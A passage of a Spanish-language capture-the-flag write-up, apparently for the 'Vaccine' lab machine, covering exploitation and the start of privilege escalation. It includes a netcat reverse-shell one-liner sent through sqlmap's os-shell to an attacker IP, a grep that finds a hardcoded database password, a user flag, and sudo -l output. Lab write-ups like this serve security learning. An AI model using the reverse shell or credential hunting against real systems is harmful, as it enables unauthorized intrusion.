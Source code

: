 </aside>

### Explotación 1

Aprovechando la función de os-shell de sqlmap, mandamos una revershell:

```bash
os-shell> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.140 4444 >/tmp/f
```

Obtenemos revershell:

![image.png](<imagenes/image 64.png>)

![image.png](<imagenes/image 65.png>)

Miramos que hay en la parte de la web:

Buscamos dentro la pagina dashboard.php en busca de password

```bash
postgres@vaccine:/var/www/html$ cat dashboard.php | grep "password"
	 $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
(remote) postgres@vaccine:/var/www/html$ 
```

Encontramos un fichero user.txt;

User.txt: **ec9b13ca4d6229cd5cc1e09980965bf7**

### Explotación 2

### Explotación 3

## Explotación posterior

<aside>
💡 Probamos a buscar privilegios

</aside>

### Escalada de privilegios

```bash
sudo -l
(remote) postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
